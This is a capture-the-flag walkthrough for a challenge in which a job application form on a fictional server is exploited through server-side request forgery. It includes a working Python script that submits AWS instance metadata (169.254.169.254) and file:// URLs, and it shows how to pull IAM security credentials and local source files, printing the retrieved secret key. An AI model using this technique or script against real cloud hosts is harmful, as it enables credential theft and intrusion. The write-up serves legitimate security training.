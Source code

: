 # Now Hiring!

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [apply website](https://apply.jackfrosttower.com/)<br/>
**Terminal hint**: [IMDS Exploration](../hints/h10.md)


## Objective

!!! question "Request"
    What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.


## Hints

??? hint "AWS IMDS Documentation"
    The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.


## Solution

As noted by Noxious O’Dor after solving the [IMDS Exploration](../hints/h10.md) terminal, *"anytime you see URL as an input, test for SSRF"*. So, let's head straight for the [application form](https://apply.jackfrosttower.com/?p=apply) and fill in some random values to see how things behave. Depending on whether a URL is submitted or not the response will look different. For example, using the name *Alf the dyslexic elf* and an `http://169.254.169.254/latest` IMDS API endpoint as the report URL will result in a confirmation message containing additional text and a broken image.

=== ":material-web-off: Skipping the NLBI report URL"
    ![Leaving out the URL](../img/objectives/o10/no_imds_url.png){ class=border }

=== ":material-web-plus: Submitting an NLBI report URL"
    ![Submitting an IMDS URL](../img/objectives/o10/imds_url.png){ class=border }

Inspecting the network requests using the web browser's developer tools shows that the missing image actually has the same name we submitted via the form, `Alf the dyslexic elf.jpg`. It also shows that the request to retrieve the image returned an HTTP 200 response, meaning it must exist. Downloading [`Alf the dyslexic elf.jpg`](../artifacts/objectives/o10/Alf%20the%20dyslexic%20elf.jpg) using `curl` reveals that the file doesn't contain any image data at all, but the output from a request to the server's `http://169.254.169.254/latest` IMDS API endpoint.

![Inspecting the image](../img/objectives/o10/inspecting_the_image.png)

Now that we've confirmed the website is vulnerable to [SSRF](https://portswigger.net/web-security/ssrf) we can either keep submitting the form via a web browser like we've done so far, use `curl` to both submit the form and retrieve the image data, or write a [small script](../tools/objectives/o10/get_ssrf_data.py) that automates the form submission and image retrieval for either an IMDS API endpoint or a local `file://` URL. 

??? example "get_ssrf_data.py"
    ```python linenums="1"
    #!/usr/bin/env python
    import requests
    import click


    @click.command()
    @click.option('-n', '--name', default="Alf the dyslexic elf", help='Your preferred name.')
    @click.option('-a', '--api-endpoint', default="/", help='The IMDS API endpoint to query.')
    @click.option('-f', '--file', help='The full path to a local file.')
    def cli(name: str, api_endpoint: str, file: str):
        url = "https://apply.jackfrosttower.com"

        # Create the file or IMDS URL to retrieve
        if file:
            message = f"local file {file}"
            ssrf_url = f"file://{file}"
        else:
            message = f"IMDS {api_endpoint}"
            ssrf_url = f"http://169.254.169.254{api_endpoint}"

        # Application form fields
        params = {
            'inputName': name,
            'inputEmail': "",
            'inputPhone': "",
            'resumeFile': "",
            'inputWorkSample': ssrf_url,
            'additionalInformation': "",
            'submit': "",
        }

        # Submit the form
        sess = requests.Session()
        resp = sess.get(url, params=params)

        # If the request was successful, download the JPG file and print the contents
        if resp.status_code == 200 and "recipients rejoice!" in resp.text:
            print("Form submission successful.")
            print(f"Retrieving {message}:")
            print(sess.get(f"{url}/images/{name}.jpg").text)
        else:
            print("Error submitting form.")


    if __name__ == '__main__':
        cli()
    ```

The key data we're after is stored under `/latest/meta-data/iam/security-credentials/<role_name>`, so we first need to request `/latest/meta-data/iam/security-credentials` and then use the role name in a followup request to retrieve all credential details.

![Running the script](../img/objectives/o10/run_script.png)

!!! done "Answer"
    CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX

!!! note "PHP application flaw"
    Using `python get_ssrf_data.py -f '/var/www/html/index.html'` to access the web application source at  `/var/www/html/index.html` we can see that the PHP code doesn't verify if an actual NLBI report URL was submitted and simply assumes that what is sent back is an image. The intent was to personalize the confirmation message by including the applicant's profile picture, but instead it introduced the SSRF vulnerability.

    ![PHP flaw](../img/objectives/o10/php_flaw.png)
